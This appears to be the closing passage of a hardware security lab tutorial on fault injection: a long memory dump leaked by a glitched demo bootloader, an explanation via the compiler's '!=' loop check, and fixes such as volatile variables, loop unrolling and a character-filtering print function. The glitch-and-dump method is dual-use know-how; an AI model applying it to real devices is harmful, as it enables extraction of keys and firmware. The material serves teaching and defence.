000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x00TUVWXYZABCDEFGHIJKLM0x000x000x000x0040x000x000x00abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0x000x000x000x000x040x080x020x000xAD0x010x000x080x890x010x000x08nopqrstuvwxyzabcdefghijklmNOPQRS0x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x00

Diagnosing the Fault
--------------------

As you can see by the output, the bootloader has suffered a pretty
catastrophic failure! Not only has it spilled the secret, it’s also
dumped a whole bunch more memory. For a real bootloader, there’s
probably some pretty juicy stuff in there like encryption keys or
previously decrypted firmware. Let’s start by taking a look at the C
source code that sends the error code back:

.. code:: c

   trigger_high();

   int i;
   for(i = 0; i < ascii_idx; i++)
   {
       putch(ascii_buffer[i]);
   }
   trigger_low();
   state = IDLE;

Nothing really looks too unusual here. Before we take a look at the
assembly and figure out what went wrong, let’s try to make some guesses:

-  Maybe the glitch corrupted the ``ascii_idx`` variable

   -  The glitch happened near the end of the loop. It’s unlikely the
      end of loop counter would be reloaded during the loop

-  Maybe we skipped the last ``i < ascii_idx`` check

   -  The glitch caused **a lot** of memory to be dumped. If we just
      skipped the last check it **should** only print an extra character

-  i is a signed integer: maybe we corrupted it into being a really
   large negative number.

That last one seems to be our best theory, so let’s go with that.

The Answer
----------

Let’s check the assembly for our booloader. No need to decompile the
binary or recompile to assembly, since there’s also a listing file
created as part of the build process (``*.lss``). This file also
contains C, so it makes it easy to search (try something like the
``trigger_high()`` call). You might notice that instead of doing a
``less than or equal`` or ``less than`` comparison like was in our C
code, the compiler has instead inserted a ``not equal`` comparison
instead! This means our original guess may not have been correct, as our
assumption about what would happen if the last ``i < ascii_idx`` was
skipped doesn’t hold. In fact, it’s a lot more likely that the last
check was skipped (or i was set to some large value) than flipping a
particular bit.

This is actually a pretty unexpected change for the compiler to make,
espcially since ``less than``, ``greater than``, and ``not equal`` are
nearly identical instructions in terms of implementation and have both
the same instruction size and speed. This showcases an important fact:
the C code that you write is not directly translated to assembly. It
needs to go through the compiler first, which may drastically change the
intended logic of the program.

Now that we know what happened, let’s look at some ways to fix it.

1. Volatile variables
~~~~~~~~~~~~~~~~~~~~~

C includes a keyword for variables called ``volatile``, which indicates
that the variable may change between accesses and therefore should not
have optimizations applied to it. A typical use case for ``volatile`` is
for peripheral registers on embedded devices. It would be really bad,
for example, if you were trying to wait for an IO pin to go high in your
code, but the compiler decided it would be faster to only check it only
once and assume it doesn’t change!

Try replacing ``int i = 0;`` before the print look with
``volatile int i = 0;``, recompile, and check the listing file. Is there
any other unexpected changes? What about if you consider the use case
above (i.e. if ``i`` was a register instead of a loop variable)? Is
there any way the attack might still work? If so, how might you mitigate
this?

2. Unrolling the loop
~~~~~~~~~~~~~~~~~~~~~

Another potential way of solving this issue would be to manually unroll
the loop. The message being printed by the bootloader is a constant
length of 7 characters, so we could instead write:

.. code:: c

   int i;
   putch(ascii_buffer[i++]);
   putch(ascii_buffer[i++]);
   putch(ascii_buffer[i++]);
   putch(ascii_buffer[i++]);
   putch(ascii_buffer[i++]);
   putch(ascii_buffer[i++]);
   putch(ascii_buffer[i++]);

In fact, this is something the compiler might do on its own to optimize
the code, since unrolling a loop like this is faster than the loop
version. It’s not a good idea to blindly rely on this, however, since
the compiler could choose not to make this optimization as well and
might change it between builds.

3. Checking for invalid characters
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Another thing to consider is that the message from the bootloader only
has a limited range of characters that it prints. We could instead
construct a “safe print” function that only prints newlines, ``'r'`` and
ASCII digits (i.e. ``'0'`` to ``'9'``):

.. code:: c

   int safe_print(char c)
   {
       if ((c == '\n') ||
          ((c >= '0') && (c <= '9')) ||
          (c == 'r')) {
           putch(c);
           return 0;
       }
       return -1; //uh oh!
   }

It we went this route, it would be a good idea to make the error return
a separate buffer with a bunch of null characters at the end.

4. More generic methods
~~~~~~~~~~~~~~~~~~~~~~~

More generic ways of defending against glitch attacks (memory guards,
for example) are also discussed in the training slides.

**In [14]:**

.. code:: ipython3

    scope.dis()
    target.dis()
